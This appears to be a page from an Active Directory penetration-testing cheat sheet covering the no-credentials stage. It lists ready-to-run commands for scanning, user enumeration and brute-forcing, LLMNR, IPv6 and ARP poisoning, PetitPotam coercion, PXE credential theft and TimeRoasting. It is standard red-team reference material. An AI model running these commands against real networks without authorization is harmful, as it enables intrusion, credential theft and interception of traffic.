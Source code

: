 # No Credentials

## Scan network >>> Vulnerable host
- `nxc smb <ip_range>`
- `nmap -sP -p <ip>`
- `nmap -Pn -sV --top-ports 50 --open <ip>`
- `nmap -Pn --script smb-vuln* -p139,445 <ip>`
- `nmap -Pn -sC -sV -oA <output> <ip>`
- `nmap -Pn -sC -sV -p- -oA <output> <ip>`
- `nmap -sU -sC -sV -oA <output> <ip>`

## Find DC IP
- `nmcli dev show <interface>`
- `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
- `nmap -p 88 --open <ip_range>`

## Zone transfert
- `dig axfr <domain_name> @<name_server>`

## Anonymous & Guest access on SMB shares
- `nxc smb <ip_range> -u '' -p ''`
- `nxc smb <ip_range> -u 'a' -p ''`
- `enum4linux-ng.py -a -u '' -p '' <ip>`
- `smbclient -U '%' -L //<ip>`

## Enumerate LDAP >>> Username
- `nmap -n -sV --script 'ldap*' and not brute -p 389 <dc_ip>`
- `ldapsearch -x -h <dc_ip> -s base`

## Enumerate Users >>> Username
- `nxc smb <dc_ip> --users`
- `nxc smb <dc_ip> --rid-brute 10000 # bruteforcing RID`
- `net rpc group members 'Domain Users' -W '<domain> -l <ip> -U '%'`

## Bruteforce users >>> Username
- `kerbrute userenum -d <domain> <userlist>`
- `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm= '<domain>',userdb=<user_list_file>" <dc_ip>`

## Poisoning >>> poisoning SMB || poisoning LDAP || poisoning HTTP
- LLMNR / NBTNS / MDNS
  - `responder -l <interface>`
- ⚠️ DHCPv6 (IPv6 prefered to IPv4)
  - `mitm6 -d <domain>`
  - `bettercap`
- ⚠️ ARP Poisoning
  - `bettercap`
  - `asreqroast`
    - `Pcredz -i <interface> -v` >>> Hash found ASREQ

## Coerce >>> Coerce SMB
- Unauthent PetitPotam (CVE-2022-26925) @CVE@
  - `petitpotam.py -d <domain> <listener> <target>`

## PXE
- no password >>> Credentials (NAA account)
  - `pxethief.py 1`
  - `pxethief.py 2 <distribution_point_ip>`
- password protected >>> PXE Hash
  - `tftp -i <dp_ip> GET "\xxx\boot.var"`
  - `pxethief.py 5 '\xxx\boot.var'`

## TimeRoasting >>> timeroast hash
- `timeroast.py <dc_ip> -o <output_log>`